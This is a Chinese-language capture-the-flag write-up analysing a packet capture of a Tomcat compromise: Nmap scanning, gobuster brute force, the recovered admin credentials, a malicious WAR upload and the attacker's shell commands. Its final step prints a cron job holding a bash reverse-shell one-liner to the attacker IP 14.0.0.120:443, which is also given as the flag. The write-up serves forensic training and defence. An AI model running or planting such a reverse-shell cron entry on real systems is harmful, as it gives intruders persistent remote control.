

# 玄机——第六章 流量特征分析-常见攻击事件 tomcat

### 一、前言

题目链接：[第六章 流量特征分析-常见攻击事件](https://xj.edisec.net/challenges/50)

三连关注**私信**免费送玄机邀请码喔~看见就回！！！！！私信！！！

流量特征分析-常见攻击事件

> 流量特征分析用于识别和防御常见的网络攻击事件。通过分析网络流量的特征，可以发现异常活动，识别潜在的攻击，并采取相应的防御措施。以下是一些常见的网络攻击事件及其流量特征：

**1. DDoS（分布式拒绝服务）攻击**

* **流量特征**：

  * 短时间内大量请求涌向目标服务器，导致服务不可用。
  * 流量高峰异常，超过正常流量基线数倍甚至数十倍。
  * 源IP地址多为伪造，分布广泛，难以追踪。
  * 目标端口集中，通常为80（HTTP）或443（HTTPS）等常见服务端口。

**2. SYN Flood 攻击**

* **流量特征**：

  * 短时间内大量SYN包涌向目标服务器，导致服务器资源耗尽。
  * 每个连接请求仅发送SYN包，不完成三次握手过程。
  * 来源IP地址随机或伪造，难以追踪真实攻击者。

**3. ICMP Flood 攻击**

* **流量特征**：

  * 短时间内大量ICMP Echo请求（ping包）涌向目标，导致网络拥塞。
  * ICMP流量异常高，超过正常基线。
  * 包大小可能设置为最大，增加带宽消耗。

**4. UDP Flood 攻击**

* **流量特征**：

  * 短时间内大量UDP包涌向目标，导致网络带宽耗尽或目标服务资源耗尽。
  * 来源端口和目标端口多为随机，增加流量混乱度。
  * 流量高峰明显，超过正常基线。

**5. SQL注入攻击**

* **流量特征**：

  * HTTP请求中包含异常的SQL查询语句，如 `' OR '1'='1`​。
  * 频繁的POST请求或GET请求，URL参数中含有SQL关键字（如 `SELECT`​、`UNION`​、`INSERT`​）。
  * 请求响应时间异常，数据库负载增加。

**6. XSS（跨站脚本）攻击**

* **流量特征**：

  * HTTP请求中包含异常的JavaScript代码片段。
  * URL参数或表单提交数据中含有 `<script>`​ 标签或其他脚本标记。
  * 受害者浏览器向攻击者控制的域名发出异常请求。

**7. 钓鱼攻击**

* **流量特征**：

  * 电子邮件或网站链接指向伪造的登录页面，域名类似于合法网站。
  * 短时间内多个用户从相同URL访问相同IP地址。
  * URL中包含常见钓鱼标志，如域名拼写错误或额外的子域名。

**8. 恶意软件下载**

* **流量特征**：

  * 短时间内从同一URL下载可执行文件或压缩包。
  * 文件名、文件类型和URL路径看似正常，但文件实际含有恶意代码。
  * 下载请求来源IP地址多样，可能涉及大量用户。

**9. 暴力破解攻击**

* **流量特征**：

  * 短时间内对同一服务发出大量的登录尝试请求。
  * 每次请求尝试使用不同的用户名或密码组合。
  * 失败的登录尝试次数异常高。

**10. 数据泄露**

* **流量特征**：

  * 大量数据从内部网络流出，流量异常高。
  * 非工作时间段内的大量数据传输。
  * 数据传输的目标IP地址异常，可能位于非预期的地理位置。

**简单来说：**

流量特征分析是网络安全的重要手段，通过识别异常流量模式和特征，可以及时发现和防御各种网络攻击事件。

### 二、概览

#### 简介

**1、在web服务器上发现的可疑活动,流量分析会显示很多请求,这表明存在恶意的扫描行为,通过分析扫描的行为后提交攻击者IP  flag格式：flag{ip}，如：flag{127.0.0.1}2、找到攻击者IP后请通过技术手段确定其所在地址 flag格式: flag{城市英文小写}3、哪一个端口提供对web服务器管理面板的访问？ flag格式：flag{2222}4、经过前面对攻击者行为的分析后,攻击者运用的工具是？ flag格式：flag{名称}5、攻击者拿到特定目录的线索后,想要通过暴力破解的方式登录,请通过分析流量找到攻击者登录成功的用户名和密码？ flag格式：flag{root-123}6、攻击者登录成功后,先要建立反弹shell,请分析流量提交恶意文件的名称？ flag格式：flag{114514.txt}7、攻击者想要维持提权成功后的登录,请分析流量后提交关键的信息？ flag提示,某种任务里的信息**

### 三、参考文章

[【玄机-应急平台】第六章 流量特征分析-常见攻击事件 tomcat](https://blog.csdn.net/Aluxian_/article/details/139681477)

[流量特征分析-常见攻击事件 tomcat](https://www.cnblogs.com/NoCirc1e/p/18165208)

### 步骤（分析）

#### 步骤# 1.1

##### 在web服务器上发现的可疑活动,流量分析会显示很多请求,这表明存在恶意的扫描行为,通过分析扫描的行为后提交攻击者IP flag格式：flag{ip}，如：flag{127.0.0.1}

解题思路

根据题目提示说存在恶意扫描行为，那就简单查看一下流量，发现了个特殊点，很多[SYN]，如果第一次做，那肯定就是不明白这个SYN是什么，那就简单说明一下；

**使用 Nmap（Network Mapper）扫描网络时，会生成特定的流量特征，这些特征可以被流量监控系统和入侵检测系统（IDS）识别。**

**1. SYN 扫描**

* **流量特征**：

  * 发送大量 SYN 包，尝试建立连接但不完成三次握手过程（半开连接）。
  * TCP SYN 包的来源端口和目标端口多为随机，常见目标端口为 21（FTP）、22（SSH）、80（HTTP）、443（HTTPS）等常见服务端口。
  * 如果目标主机回复 SYN-ACK 包，Nmap 会立即发送 RST 包来中断连接。

​​

所以可以确认黑客使用的扫描器就是namp，那既然扫描器都知道了，黑客的IP就母庸质疑了；

	flag{14.0.0.120}

#### 步骤# 1.2

##### 找到攻击者IP后请通过技术手段确定其所在地址 flag格式: flag{城市英文小写}

解题思路

根据题一我们已经知道黑客的IP了（14.0.0.120），那我们直接百度一下这个IP的具体位置即可；

​​

一般IP查询都是在线的；

​​

根据题目提交flag格式：flag{城市英文小写}，所以不难看出就是广州；

	flag{guangzhou}

#### 步骤# 1.3

##### 哪一个端口提供对web服务器管理面板的访问？ flag格式：flag{2222}

解题思路

首先要了解一下常见的web管理端口有那些？

**1. 常见的 Web 管理端口**

通常，Web 服务器管理面板会使用以下常见端口：

* **80（HTTP）** ：不安全的网页访问。
* **443（HTTPS）** ：安全的网页访问。
* **8080**：常见的备用 HTTP 端口。
* **8443**：常见的备用 HTTPS 端口。
* **2082, 2083**：cPanel 默认管理端口。
* **10000**：Webmin 默认管理端口。
* **8006**：Proxmox Virtual Environment 管理端口。
* **3000**：用于许多自定义和开发中的管理面板，如 Grafana。

同样的我们也可以通过一下特征来识别管理面板；

**根据流量内容，可以识别是否是管理面板的访问请求。通常，管理面板的 URL 路径可能包含如下关键词：**

* ​`admin`​
* ​`login`​
* ​`cpanel`​
* ​`webmin`​
* ​`dashboard`​
* ​`manage`​

那这里我们直接筛选http先进行分析；

**那有的人就要问了查黑客看管理面板通过那个端口为什么是http呢？**

> 很好理解，因为在 Wireshark 中查找黑客对 Web 服务器管理面板的访问，使用 HTTP 或 HTTPS 流量进行查看的原因是因为这些协议是 Web 服务器管理面板最常用的访问方式。

​​

**发现admin那就基本可以确认是8080端口，因为上面我们也总结了常见的管理面板URL路径；**

​​

	flag{8080}

#### 步骤# 1.4

##### 经过前面对攻击者行为的分析后,攻击者运用的工具是？ flag格式：flag{名称}

解题思路

题目问我们黑客使用什么工具攻击服务器，那我们还是接着刚刚的http继续进行分析，结果往下翻一下就发现大量而且频繁的爆破请求；（这里我单击了info进行了排序）

###### 拓展1.1

在Wireshark中，单击“Info”列进行排序的效果如下：

**排序效果**

1. **初次单击“Info”列**：

    * **升序排序**：单击一次“Info”列标题，所有捕获的包将根据“Info”列中的信息进行升序排序。这意味着包含相似信息或按照字母顺序排列的信息将显示在前面。
2. **再次单击“Info”列**：

    * **降序排序**：如果再次单击“Info”列标题，所有捕获的包将根据“Info”列中的信息进行降序排序。排序顺序将反转，意味着字母序较后的信息将显示在前面。

**具体作用**

* **查看特定类型的流量**：通过对“Info”列排序，可以快速找到并查看相同或相似类型的流量。例如，可以找到所有的 HTTP GET 请求、DNS 查询等。
* **分析包的顺序**：排序后，可以更容易分析某些包的出现频率和顺序，特别是在调试或查找异常流量时。

​​

**那为什么就可以确认这是被爆破的呢？**

* **频繁请求**: 在极短时间内，来源 IP 访问了多个与示例或管理相关的路径。
* **访问敏感路径**: 请求路径包含 `/manager/html`​ 和 `/host-manager/html`​，这是 Tomcat 的管理页面，通常不应被公开访问。

> 所以从这些信息可以判断，该行为很可能是一次扫描或暴力破解尝试，攻击者试图通过访问示例和管理路径来收集信息或进行攻击。

那我们右键随便点击http，进行追踪一下即可发现黑客用的工具；

​  
最后；

	flag{gobuster}

###### 拓展1.2

**这里简单总结一下攻击者喜欢常用攻击的工具；**

1. **Nmap**

* **用途**：网络扫描和主机发现
* **功能**：用于发现网络中的设备及其服务，通过端口扫描了解系统信息、检测开放端口和潜在的安全漏洞。

2. **Metasploit**

* **用途**：漏洞利用和渗透测试
* **功能**：提供了一个框架，允许用户开发、测试和执行漏洞利用代码，进行渗透测试。

3. **Wireshark**

* **用途**：网络流量分析
* **功能**：捕获和分析网络数据包，帮助理解网络通信并检测可疑活动。

4. **Gobuster**

* **用途**：目录和文件暴力破解
* **功能**：通过字典攻击来查找网站的隐藏目录和文件，帮助发现未公开的资源。

5. **Hydra**

* **用途**：密码破解
* **功能**：进行快速并行的暴力破解或字典攻击，针对各种协议和服务（如FTP、HTTP、SSH等）。

6. **John the Ripper**

* **用途**：密码破解
* **功能**：针对加密密码文件进行暴力破解或字典攻击，支持多种加密格式。

7. **SQLmap**

* **用途**：SQL注入攻击
* **功能**：自动检测和利用SQL注入漏洞，帮助测试和防护数据库系统。

8. **Burp Suite**

* **用途**：Web应用安全测试
* **功能**：集成的Web应用渗透测试工具，包含拦截代理、扫描器、爬虫等功能。

9. **Aircrack-ng**

* **用途**：无线网络破解
* **功能**：用于捕获和分析无线数据包，并进行WEP和WPA-PSK密码的暴力破解。

10. **Nikto**

* **用途**：Web服务器扫描
* **功能**：扫描Web服务器，检测潜在的安全漏洞和配置问题。

11. **Maltego**

* **用途**：信息收集和关系分析
* **功能**：图形化分析工具，用于收集和展示公开的情报信息，揭示复杂的数据关系。

12. **Social-Engineer Toolkit (SET)**

* **用途**：社会工程学攻击
* **功能**：模拟社会工程学攻击，如钓鱼攻击、短信钓鱼等，帮助测试和培训安全意识。

#### 步骤# 1.5

##### 攻击者拿到特定目录的线索后,想要通过暴力破解的方式登录,请通过分析流量找到攻击者登录成功的用户名和密码？ flag格式：flag{root-123}

解题思路

题目让我们找到暴力破解方式登录时黑客成功登录的用户名以及密码，那就找一下看看有没有黑客上传木马的包，那既然是找上传那肯定还是http咯这点母庸质疑；（还是info排序进行查找便捷一些）

​​

**别的可能傻一点或许不知道，但是这个upload那肯定就是上传啦，而且这一列http下来就只有这一个upload，那就右键http追踪咯；**

其实这里还有一个思路也可以直接定位到upload，那就是**查找登录请求**：

* 在过滤后的HTTP请求中查找与登录相关的请求。通常，登录请求会使用POST方法并包含用户名和密码参数。可能的路径包括 `/login`​, `/auth`​, `/signin`​, 等。
* **找到成功登录请求**：

  * 检查服务器的响应，如果服务器返回200 OK或其他表明成功登录的状态码（如302重定向），并且该响应与一个POST请求相对应，那么这个POST请求就是黑客成功登录的请求。

所以我们可以直接过滤；

	http.request.method == "POST"

​​

**这两种方法都是可以找到upload，那我们右键http追踪进行分析；**

​​

**很快就发现了账号以及密码，为什么说这个就是账号密码呢？**

> 在分析HTTP请求时，特别是对于涉及登录和认证的请求，HTTP头部中的 `Authorization`​ 字段是一个非常明显的提示。

**那为什么Authorization头部显而易见地是用户名和密码？**

* **HTTP基本认证（Basic Authentication）标准**:

  * HTTP基本认证是一种常见的用户认证方法。它的工作原理是通过HTTP头部的 `Authorization`​ 字段来传递用户的凭证（用户名和密码）。
  * 这种方法在请求头中使用 `Authorization: Basic <Base64编码的用户名和密码>`​ 的格式。
* **格式识别**:

  * ​`Authorization`​ 字段紧跟着一个 `Basic`​ 关键字，后面跟着一串Base64编码的字符串。
  * 根据HTTP基本认证的标准，这串Base64编码的字符串实际上是 `用户名:密码`​ 的格式。
* **Base64编码解码**:

  * Base64编码是一种将二进制数据转换为文本字符串的编码方法。在安全分析和网络分析中，看到Base64编码的字符串是一种常见的情况。
  * 解码Base64字符串可以直接得到明文的用户名和密码。

[base64在线解码](https://www.toolhelper.cn/EncodeDecode/Base64)

​​

得到账号密码，按照格式提交即可：flag{root-123}

	flag{admin-tomcat}

#### 步骤# 1.6

##### 攻击者登录成功后,先要建立反弹shell,请分析流量提交恶意文件的名称？ flag格式：flag{114514.txt}

解题思路

**已知题目让我们分析流量提交恶意文件的名称，那我们还是从HTTP POST请求中查找上传的恶意文件名称；**

	http.request.method == "POST"

​​

在请求中查找 `Content-Disposition`​ 字段，这个字段包含了上传文件的名称。

	Content-Disposition: form-data; name="deployWar"; filename="JXQOZY.war"

所以上传文件的名称是 `JXQOZY.war`​。

###### 拓展1.3

**分析文件类型**

* ​`filename="JXQOZY.war"`​ 表明上传的文件是一个 `WAR`​ 文件（Web Application Archive）。
* ​`WAR`​ 文件通常用于Java Web应用程序的部署。

> 提交 `JXQOZY.war`​ 文件后，攻击者可能会利用这个文件在服务器上执行恶意代码，例如建立反弹shell。进一步的网络流量分析可以帮助确定攻击者是否成功执行了恶意代码并建立了反弹shell。此类分析可以包括：
>
> * 查看服务器的响应。
> * 检查是否有后续的可疑连接，例如反向shell连接。
> * 检查是否有其他不寻常的活动，可能表明服务器被攻破。

	flag{JXQOZY.war}

#### 步骤#1.7

##### 攻击者想要维持提权成功后的登录,请分析流量后提交关键的信息？ flag提示,某种任务里的信息

解题思路

为了找到攻击者维持提权成功后的登录相关信息，可以分析流量中关键的HTTP请求和响应内容，特别关注那些可能包含上传文件、执行命令或获取系统信息的请求。

在流量中，任何涉及到管理接口、上传文件、或执行命令的请求都需要重点关注。例如：

* **POST /manager/html/upload**：上传文件请求
*  **/bin/sh** 或  **/bin/bash**：执行命令的请求

**提权后的持久化手段**

攻击者常用的方法包括：

* **上传恶意文件**：例如，WAR文件中可能包含shell脚本或其他恶意代码。
* **定时任务(cron job)** ：通过定时任务执行恶意代码。
* **后门程序**：例如，将恶意程序放置在 `/bin`​ 或其他系统目录。

**发现关键路径**  **​`/bin`​**​

路径 `/bin`​ 是Linux系统中的一个重要目录，通常包含系统级命令。如果在流量中发现了对 `/bin`​ 目录的访问或文件上传，那么很可能攻击者在这里放置了后门程序。

根据上题已知upload那肯定就是没有了，因为里面只有一些其它的信息，那我们就只能从/bin或者定时任务进行查找相关信息，我们可以用命令；

	http contains "/bin"

​​

**哎，发现没有耶，那是怎么个回事呢？**

> 这是因为HTTP协议传输的数据实际上是封装在TCP协议之中的。HTTP数据在传输过程中会被分割成TCP包，每个TCP包中包含部分HTTP数据。如果HTTP数据中的某些内容被分割到多个TCP包中，那么在查看HTTP流量时可能无法直接匹配到这些分割的数据，而在查看原始的TCP流量时可以。

所以改成tcp流试试看；

	tcp contains "/bin"

​**​`tcp contains "/bin"`​** ​ **是一个显示过滤器，用于查找TCP流量中负载数据部分包含字符串**​ **​`/bin`​**​**的所有数据包，反之上面的http一个道理换汤不换药。**

​​

右键追踪tcp流进行分析；

​​

得到

	whoami

	root

	cd /tmp

	pwd

	/tmp

	echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'" > cron

	crontab -i cron

	crontab -l

	* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'

简单分析一下；

**这段命令显示了一个攻击者通过Linux命令行在目标系统上执行的一系列操作，目的是在系统上设置一个定时任务，建立一个反向Shell连接。**

**分析步骤**

1. **whoami**

    * 输出：`root`​
    * 作用：确认当前用户是`root`​，拥有最高权限。
2. **cd /tmp**

    * 作用：切换当前工作目录到`/tmp`​。这个目录通常用于存放临时文件，对所有用户开放写权限，是攻击者常用的目录。
3. **pwd**

    * 输出：`/tmp`​
    * 作用：确认当前工作目录确实是`/tmp`​。
4. _*echo &quot;*  * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'" > cron_*

    * 作用：将一个定时任务写入名为`cron`​的文件中。
    * 内容解释：

      * ​`* * * * *`​：表示每分钟执行一次。
      * ​`/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`​：在bash中执行反向Shell连接到IP `14.0.0.120`​的443端口。
5. **crontab -i cron**

    * 作用：将`cron`​文件中的内容安装为当前用户的定时任务（crontab）。
    * 选项：`-i`​通常表示安装或导入。
6. **crontab -l**

    * 输出：`* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`​
    * 作用：列出当前用户的所有定时任务，确认任务已成功安装。

**恶意行为分析**

* **反向Shell**：每分钟执行一次，尝试通过目标机器的`/bin/bash`​发起到攻击者机器（`14.0.0.120`​）的443端口的反向Shell连接。
* **保持持久访问**：使用crontab在目标机器上设置定时任务，实现持久化访问，即使Shell被关闭，每分钟仍会尝试重新连接。
* **高权限操作**：攻击者以`root`​权限执行命令，确保对系统有最高控制权。

> 所以从攻击者的行为来看，他们希望在系统上保持持久的控制。通过设置crontab任务，攻击者可以确保即使当前连接断开，他们也能每分钟重新建立一个反向Shell连接。

**关键信息；**

**crontab 任务**： `* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`​

* 这个任务是攻击者设置的，用于每分钟尝试建立一个反向Shell连接到攻击者的机器。

**所以为什么这是关键信息？**

* **持久性控制**：

  * 攻击者通过crontab任务保证每分钟尝试重新建立连接，即使当前连接断开或者系统重启，攻击者仍然能重新控制系统。
  * 这表明攻击者不仅仅是一次性访问系统，而是希望持续控制目标系统。
* **通信与回连**：

  * 反向Shell连接到外部IP（14.0.0.120），表示攻击者在等待来自目标系统的连接，这种通信是恶意行为的重要标志。
  * 通过监控网络流量，可以发现这种重复的反向连接尝试，进一步确认系统被攻陷。
* **高权限操作**：

  * 任务是由`root`​用户设置的，这意味着攻击者已经获得了系统的最高权限，可以执行任何命令。
  * 这种高权限任务表明系统已经被严重入侵，必须立即采取行动。

最后；

	flag{/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'}
